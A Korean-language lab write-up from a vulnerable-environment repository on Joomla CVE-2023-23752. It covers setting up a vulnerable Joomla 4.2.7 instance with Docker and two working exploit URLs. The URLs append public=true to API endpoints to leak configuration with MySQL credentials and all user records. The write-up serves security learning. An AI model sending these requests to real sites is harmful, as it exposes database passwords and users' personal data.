




# Joomla 웹서비스 엔드포인트부적절한 접근 제어(CVE-2023-23752)

## 리포

[https://github.com/4lph4-dvlp/kr-vulhub](https://github.com/4lph4-dvlp/kr-vulhub)

(add Joomla/CVE-2023-23752)

## 개요

Joomla는 사용자가 웹사이트 및 온라인 애플리케이션을 구축할 수 있도록 지원하는 무료 오픈소스 콘텐츠 관리 시스템(CMS)이다. 2005년에 처음 출시되었으며, 현재 전 세계 수백만 개의 웹사이트를 지원하는 가장 인기 있는 CMS 플랫폼 중 하나이다.

Joomla! 4.0.0부터 4.2.7 버전까지, 웹서비스 엔드포인트에 대한 부적절한 접근 검사로 인해 인증되지 않은 접근이 가능한 취약점이 발견되었다.

## 참고 자료

- [Joomla 공식 보안 공지](https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html)
- [취약점 분석 - Aliyun XZ](https://xz.aliyun.com/t/12175)
- [취약점 분석 - VulnCheck](https://vulncheck.com/blog/joomla-for-rce)

## 취약한 환경 구성 방법

Joomla 4.2.7 사이트를 실행하려면 다음 명령어를 사용한다.

```bash
docker compose up -d
```



서버가 시작된 후, [http://localhost:8080](http://localhost:8080/) 에서 Joomla 웹사이트에 접속할 수 있다.



## 취약점 설명 및 공격 방법

이 취약점은 속성(attribute) 덮어쓰기 문제로 인해 발생한다. 공격자는 `public=true` 파라미터를 사용하여 인증 검사를 우회할 수 있다.

예를 들어, 아래 링크를 통해 MySQL 사용자 이름 및 비밀번호를 포함한 모든 설정 정보를 노출시킬 수 있다:

```bash
http://localhost:8080/api/index.php/v1/config/application?public=true
```



- `public=true` 없이 접근할 경우, 접근이 허용되지 않는다.

또한, 모든 사용자 정보(이메일 포함)를 다음 링크를 통해 노출시킬 수 있다:

```bash
http://localhost:8080/api/index.php/v1/users?public=true
```


